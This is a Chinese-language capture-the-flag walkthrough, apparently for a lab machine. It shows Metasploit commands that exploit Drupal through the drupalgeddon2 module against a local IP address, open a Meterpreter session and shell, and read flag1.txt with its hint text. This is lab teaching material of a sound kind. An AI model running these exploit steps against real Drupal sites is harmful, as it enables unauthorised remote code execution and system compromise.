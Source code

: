启动Metasploit

```text
msfconsole
```

查找drupal的exp

```text
search drupal
```

![image-20210311103202473](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311103202473.png)

使用这个exp

```text
use exploit/unix/webapp/drupal_drupalgeddon2
```

![image-20210311104314214](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311104314214.png)

查看配置

```text
show options
```

![image-20210311104400421](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311104400421.png)

进行反弹shell

```text
set RHOSTS 192.168.1.233
exploit 看到提示Meterpreter session 1opened并出现 meterpreter> 说明攻击成功。
shell 执行命令shell命令获得shell
whoami 查看当前用户
ls 查看当前目录下文件
```

![image-20210311104932032](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311104932032.png)

目录显示如下

![image-20210311105011049](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311105011049.png)

发现flag1.txt

使用cat命令查看

```text
cat flag1.txt
```

![image-20210311105057861](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210311105057861.png)

```text
Every good CMS needs a config file - and so do you.
```
